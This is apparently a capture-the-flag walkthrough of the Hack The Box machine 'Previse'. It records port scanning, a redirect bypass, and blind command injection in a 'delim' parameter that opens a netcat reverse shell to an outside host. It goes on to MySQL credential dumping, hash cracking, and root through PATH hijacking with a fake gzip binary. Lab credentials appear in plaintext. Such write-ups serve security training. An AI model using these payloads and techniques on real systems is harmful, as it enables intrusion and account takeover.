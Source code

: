 # Previse

## Scanning 

`sudo nmap -sC -sV -oN nmap/initial 10.10.11.104  -v`

`gobuster dir -u 10.10.11.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`


### Open ports

```
22 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80 Apache httpd 2.4.29
```

## Users

```
root:mySQL_p@ssw0rd!:) -> creds for mysql db (previse)
m4lwhere:ilovecody112235! -> creds found in previse db 
```


## Endpoints

```
[16:32:23] 302 -    4KB - /accounts.php  ->  login.php
[16:32:28] 302 -    0B  - /download.php  ->  login.php
[16:32:29] 302 -    6KB - /files.php  ->  login.php
[16:32:30] 302 -    3KB - /index.php  ->  login.php
[16:32:30] 302 -    3KB - /index.php/login/  ->  login.php
[16:32:31] 302 -    0B  - /logout.php  ->  login.php
[16:32:35] 302 -    3KB - /status.php  ->  login.php
```



## Notes

* Found some redirects and tried to manipulate the 302 response to 200 OK in burp

![image](https://user-images.githubusercontent.com/12052283/130096341-94e2160b-5b44-49c9-ae90-f7fa9f705c31.png)

* Manipulating `/files.php`

![image](https://user-images.githubusercontent.com/12052283/130097012-1c7f6f5b-0737-4c51-83fd-af2434881c2c.png)

![image](https://user-images.githubusercontent.com/12052283/130097078-b98400a4-7c1d-47cd-ae29-8ac60e8f5409.png)

![image](https://user-images.githubusercontent.com/12052283/130097127-d149dd0e-6b84-4af5-8bef-8b192555f030.png)

* Created a new user and downloaded the siteBackup.zip

* In `logs.php` there is an `exec` command that executes a python script, so I can execute another command inside that. In the `http://10.10.11.104/file_logs.php` I can intercept in burp and I can inject the command in `delim` param.

* I tried using `id` , `ls`, `whoami` but I found that the injection was blind so no errors returned. Then I used `sleep 2` and it worked. So I spawn a rev shell using `space ; sleep 2 && nc -e /bin/sh 10.10.14.109 9991` url encoded in the `delim` param. The shell worked and I loged in as www-data

* Upgraded the shell using ...

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")' ENTER
Ctrl + Z
stty raw -echo ENTER
fg ENTER ENTER
export TERM=xterm
```

* Logged in into mysql and got the `m4lwhere` hash `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`

```bash
mysql -u root -p
mySQL_p@ssw0rd!:)
use previse;
select username,password from accounts;
```

![image](https://user-images.githubusercontent.com/12052283/130125384-1c250445-344a-405e-8302-4f23e0db4acc.png)

* Finding what hash is using `hashcat --example-hashes | grep '\$1' -B4`

* Executing hashcat to crack since I find the hash is a mode 500

![image](https://user-images.githubusercontent.com/12052283/130125578-18df65ab-78da-497d-ab05-f97bf8b08cd8.png)

* With the hash I ssh with user m4lwhere and got the `user.txt` flag

### Getting root

* Executing `sudo -l` I saw that `secure_path` is missing so it will use the user PATH and I could execute `sudo /opt/scripts/access_backup.sh` has root

* So to privesc I needed to create an evil binary (with `gzip` name since the `access_backup.sh` is using gzip) with a reverse shell for example, then I added the `/tmp` folder to the user PATH so when I executed the `access_backup.sh` first it will go to the tmp folder and sees the evil `gzip` binary and then it will execute that binary

Basically it will run the `access_backup.sh` and it will use the `PATH` from the current user since its not defined so it will go to `/tmp` folder first and see if it finds the `gzip` binary. It will find the `evil gzip` and it will execute the revshel

![image](https://user-images.githubusercontent.com/12052283/130155296-bc80155e-5911-43c1-9256-4abb59adae6a.png)


# References

* https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

* https://www.youtube.com/watch?v=JRPWFSzFaG0 -> minute 08:00
